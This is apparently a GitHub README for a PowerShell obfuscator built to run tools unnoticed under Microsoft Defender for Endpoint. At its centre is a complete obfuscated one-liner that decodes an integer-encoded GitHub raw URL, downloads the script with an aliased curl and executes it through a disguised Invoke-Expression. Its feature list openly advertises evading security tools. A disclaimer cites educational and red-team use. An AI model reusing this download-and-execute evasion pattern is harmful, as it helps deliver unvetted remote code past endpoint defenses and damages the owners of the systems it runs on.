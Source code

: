 # ps1-obfuscator

![image](https://github.com/user-attachments/assets/39e165b8-0030-4add-a6e0-902afb6f49ee)

A `ps1` obfuscator designed to help run fkmde or other tools for use in environments with Microsoft Defender for Endpoint (MDE).

```
powershell -Command "new-alias ravnl curl; $bcutn = @(8891,8903,8903,8899,8902,8845,8834,8834,8901,8884,8906,8833,8890,8892,8903,8891,8904,8885,8904,8902,8888,8901,8886,8898,8897,8903,8888,8897,8903,8833,8886,8898,8896,8834,8889,8894,8907,8887,8901,8834,8889,8894,8896,8887,8888,8834,8896,8884,8892,8897,8834,8889,8894,8896,8887,8888,8833,8899,8902,8836); $qsnln = ''; foreach ($asciiValue in $bcutn) { $decodedChar=[char]($asciiValue-8787); $qsnln+=$decodedChar; }; .([char](9992-9887)+'e'+'x')(ravnl -useb $qsnln)" 
```

## Features
- **URL Obfuscation**: Transforms URL into a series of ASCII values, making them less recognizable to security tools.
- **Random Variable Generation**: Creates random variable names to further obscure the script and reduce the chance of detection.
- **CMD Compatibility**: The generated obfuscated script can be executed in the Windows Command Prompt, allowing for seamless integration into various workflows.
  
## Disclaimer
This tool is intended for educational and security research purposes only. The author is not responsible for misuse or for any damage that may occur from using this tool. It is the end user's responsibility to comply with all applicable laws and regulations. The use of this tool against targets without prior mutual consent is illegal.

## Credits
- This obfuscation technique was observed in a live Security Operations Center (SOC) incident and adapted for red-teaming purposes.
